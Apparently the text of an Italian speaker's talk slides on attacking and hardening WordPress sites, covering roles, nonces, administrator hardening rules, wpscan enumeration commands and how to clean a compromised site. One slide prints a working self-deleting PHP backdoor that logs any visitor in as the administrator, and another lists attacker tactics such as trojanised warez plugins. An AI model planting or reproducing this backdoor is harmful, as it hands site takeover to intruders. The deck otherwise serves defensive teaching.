

Hacking (and secure) a WordPress site!
How to sleep well and not cry in a corner
Created by Daniele Scasciafratte
Daniele Scasciafratte
- Co Founder/CTO Codeat
- Open Source Addicted
- WordPress Core Contributor/Developer
- WordPress Rome/Terni meetup
- Mozillian & Mozilla Reps & Mozilla TechSpeaker
Who is an hacker?
Persona che si diverte ad esplorare i dettagli dei sistemi di programmazione e come espandere le loro capacità, a differenza di molti utenti, che preferiscono imparare solamente il minimo necessario.
Person who likes to explore the details of the technology systems and how to extend their skills, unlike many users, who prefer to learn only the minimum necessary.
Hackers are professionals people


We are the Angela's of IT
An Hacker want to explain how he/she achieved the results to improve the technology but also itself and the others.
Let's start with culture time!


https://w3techs.com/technologies/details/cm-wordpress/all/all
First steps for a normal user
- Password
- Yes a difficult password
- What do you think that an user need?
Often the bugs are in plugins
- Missing sanitizations/escaping
- Features for logged users available to non-logged
- Non-standard
- UI
- Custom stuff that doesn't use the WordPress framework
- Reimplementation of already available WP features
- Also in themes
What are the capabilities
WordPress uses a concept of Roles, designed to give the site owner the ability to control what users can and cannot do within the site.
WordPress has six pre-defined roles: Super Admin, Administrator, Editor, Author, Contributor and Subscriber. Each role is allowed to perform a set of tasks called Capabilities.
Golden rules for an administrator
- Block access to wp-admin
- Block File browsing from web servers
- Update always WordPress and plugins
- Especially premium stuff from marketplaces
- Block comments and other interactions for non-logged users
- Check file permissions
- Ban bots and bad IPs
- Enable protection for brute force
- Remove the user 1 (admin)
- Block XML-RPC/REST API if you don't need
- Evaluate a CDN or static cache
- Implement assets minification
- Remove unused plugins
What is a nonce?
A nonce (token) is a "number used once" to help protect URLs and forms from certain types of misuse, malicious or otherwise. WordPress nonces aren't numbers but are a hash made up of numbers and letters. Nor are they used only once, but have a limited "lifetime" after which they expire. During that time period, the same nonce will be generated for a given user in a given context. The nonce for that action will remain the same for that user until that nonce life cycle has completed.
- WordPress Nonce
- Used against CSRF
- Used to identify who is the author of the request for capabilities
- Missing nonces or wrongly integrated
Golden rules for an hacker
- Check version of plugins
- Create infected warez version of premium plugins/themes (example)
- Invest a lot of time on admin-ajax.php
- Look for premium plugins not updated
- Look around for XSS
- Check for not defined SALT
- Check for
- Check if WordPress is not installed
Investigate with WordPress Rest API
The WordPress REST API provides an interface for applications to interact with your WordPress site by sending and receiving data as JSON (JavaScript Object Notation) objects.
Tools time

Online tools
We are forgetting the real tools
WP CLI Checksum
WPScan/DB
- Enumerate plugins and also versions
- If exploitable
- Common misconfiguration
- Other informations
- Enumerate users
- Brute force usernames
- Request with a long timeout or with throttling
- Random user agent
- Multiple threads
First commands to run
wpscan --url www.example.com
wpscan --url www.example.com --enumerate
Only 2 commands are enough to understand if the website is managed with a professional behaviour or not.
WPCS with PHPCS
- Better for developers
- A collection of PHP_CodeSniffer rules (sniffs) to validate code developed for WordPress. It ensures code quality and adherence to coding conventions, especially the official WordPress Coding Standards
- The PHPCompatibility ruleset and its subset PHPCompatibilityWP are highly recommended.
PHPStan
- Better for developers
- Static analysis tool for PHP
- With the WordPress extensions
No other cli tools


Fix an hacked website
- Download everything locally
- Download a clean version of
- WordPress
- Every plugins
- Every themes
- Search for php files in wp-content/uploads/*.php
- Search for files with strange date of last edit
- Compare your clean/hacked version with a diff tool
- Sometimes there are files renamed like class-ftp-inc.php
- Sometimes there is obfuscated code prepended in few/all the files
- Check if there are new Cron jobs
Why I want to hack your website?
- Access to Server Resources (mining)
- Ransom (data, files, domain, server)
- Malware (server, visitors)
- Scam
- Redirects
- Search Engine Ranking
- Phishing
- SPAM
- Other services in the server
- Fun
Money
Backdoor
@unlink(__FILE__);
require('../../../wp-blog-header.php');
require('../../../wp-includes/pluggable.php');
$user_info = get_userdata(1);
// Automatic login //
$username = $user_info->user_login;
$user = get_user_by('login', $username );
// Redirect URL //
if ( !is_wp_error( $user ) )
{
wp_clear_auth_cookie();
wp_set_current_user ( $user->ID );
wp_set_auth_cookie ( $user->ID );
$redirect_to = user_admin_url();
wp_safe_redirect( $redirect_to );
exit();
}
CVE Details
Looking at 2021, on 6 vulnerabilities in WordPress just 2 were during the development of pre-release.
Don't forget that WP has auto updates for minor release (since 3.7) with security bugfixes (for the latest major also with usual bugfixes).
https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/Plugins suggested to improve the security
- iThemes Security
- Wordfence Security
Grazie!

- http://mte90.tech/Talk-Secure-WP
- WordPress Plugin Vulnerabilities by WP Scan
- Exploit for WordPress plugins